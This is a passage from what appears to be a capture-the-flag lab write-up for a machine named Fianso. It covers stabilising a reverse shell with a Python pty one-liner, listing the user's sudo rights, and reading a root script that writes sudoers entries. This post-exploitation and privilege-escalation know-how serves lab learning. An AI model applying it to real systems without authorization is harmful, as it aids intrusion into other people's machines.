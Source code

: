 ![](/assets/images/Fianso-7.png)

I was successful in making the RS.

**FIRST FLAG**

![](/assets/images/Fianso-11.png)

I then sanitized the shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## 4. Initial Access

### 4.1. List Permissions

List the `sofiane` user's permissions

```bash
sofiane@fianso:~$ sudo -l
Matching Defaults entries for sofiane on fianso:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sofiane may run the following commands on fianso:
    (ALL : ALL) NOPASSWD: /bin/bash /opt/harness

sofiane@fianso:~$ cat /opt/harness
#! /bin/bash

clear -x
pass=$(</opt/passwordBox/password)
info="$(hostname):$(whoami):$pass" 
conf=/opt/config.conf

#touch & chmod & echo instead echo & chmod for race condition protection from user. 
touch $conf
chmod 700 $conf
echo $info > $conf

echo -e "\nAuthentication to manage music collection.\n"
echo -e "\n$(date "+Date: %D")\nUser: ${info:7:4}\nHost: ${info%%:*}\n"

read -ep "Master's password: " passInput
if [[ $passInput == $pass ]] ; then 
echo "sofiane ALL=(ALL:ALL) NOPASSWD:SETENV: /usr/bin/beet " >> /etc/sudoers 
echo -e "Sudo rights granted !\n"
else
echo -e "Wrong password\n" && exit 1
fi
```